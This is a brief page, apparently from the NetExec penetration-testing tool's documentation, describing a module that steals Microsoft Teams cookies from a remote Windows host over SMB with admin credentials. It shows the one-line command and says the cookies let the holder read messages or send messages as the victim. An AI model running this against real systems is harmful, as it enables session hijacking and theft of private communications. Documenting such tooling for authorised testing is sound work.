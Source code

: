 # Steal Microsoft Teams Cookies

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

New NetExec module to dump Microsoft Teams cookies thanks to [@KuiilSec](https://twitter.com/KuiilSec)'s contribution.&#x20;

You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.

```
$ NetExec smb <ip> -u user -p pass -M teams_localdb
```
